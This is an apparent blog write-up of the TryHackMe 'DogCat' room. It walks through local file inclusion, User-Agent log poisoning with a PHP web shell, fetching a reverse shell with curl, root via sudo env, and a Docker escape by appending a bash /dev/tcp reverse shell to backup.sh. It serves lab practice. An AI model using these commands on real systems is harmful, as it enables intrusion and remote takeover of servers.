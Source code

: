 ```yaml
---
title: "DogCat"
date: 2023-12-31
layout: "simple"
categories: [TryHackMe]
tags: [Boot2root, privesc, docker escape]
image: https://i.ibb.co/cgYN2Kr/th-3134630742.jpg
---
```


Hello guys and welcome to yet another Tryhackme writeup. Today we will be handling a medium room which is accessible [here](https://tryhackme.com/room/dogcat).

Well the methodology is quite similar to the Archangel methodology with quite a twist. Let's begin.

## ACCESSING THE WEBPAGE

So I ran an NMAP scan but that was not so productive, so I went directly into the site. 

First we see that the site has two buttons which when we click on dog for example, we get a picture of a dog.
![1](https://i.ibb.co/1K4zM53/dog.png)

Looking closely at our URL we see that it is using the view paramater. Well that is interesting. Let us try and traverse that, using the ```php://filter/convert.base64-encode/resource=./dog/../index```. 

![2](https://i.ibb.co/0mQn4pH/base64filter.png)

We can then see a base64 code on there. Let us decode it.

![3](https://i.ibb.co/JH3p0rm/base64decode.png)

We get to see some php code which when we look closely at the filters we see that ```ext``` can be used to remove the .php which is automatically added at the end of the URL. 

## ACCESS LOGS

Let us use this parameter to view the access logs. 

![4](https://i.ibb.co/gM1tmZP/accesslog.png)

Success! Next we are going to try and do some poisoning on the User-Agent using ```<?php system($_GET['cmd']);?>```. 

If you are not familiar on how to do that check the Archangel writeup.  

Next let us try and run a command using ```&cmd=whoami```

![5](https://i.ibb.co/x12dj5X/whoami.png)

We can see that we are www-data.

## REVERSE SHELL
Now we are going to try and get a reverse shell. We can get one from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Make sure to make the necessary changes to the ip and port.

Next we are gonna run a python server on our machine using ```python -m http.server 80```. Then run ```&cmd= curl -o revshell.php ip/revshell.php```. 

Using wget was not so successfull. We then should check our python server for a 200 status code.
With that done we can run our listener on our machine and run ```&cmd= php revshell.php```, then check back on our machine for a connection.

![6](https://i.ibb.co/t2Fx0MG/revshell.png)

Smooth!

## ROOT
Next we are gonna run ```sudo -l``` which checks the SUID capabilities. 

![7](https://i.ibb.co/LpBsvj2/sudo.png)

Well we see that www-data can run the command as root. So looking at [GTFO bins](https://gtfobins.github.io/) we can see that we can exploit this by using ```sudo env /bin/sh```

And we are root. 
![8](https://i.ibb.co/VV2LmmZ/root.png)

## ESCAPING DOCKER

This was not straight forward since we are supposed to look for the last flag outside the container. But it is not that hard.

As we are moving around we see a file backup.sh which sort of connects to the Host and the container. We can exploit this by running the following command.

```echo "bash -i >& /dev/tcp/ip/port 0>&1" >> backup.sh```

Then start up a listener on your machine and success we are in the host.

![9](https://i.ibb.co/qDSmNyk/container.png)

## RESOURCES 

1. [BASH FOR BEGINNERS](https://www.tldp.org/LDP/Bash-Beginners-Guide/html/)
2. [PHP TRICKS](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

Be sure to read the following articles for much better understanding. Happy hacking :)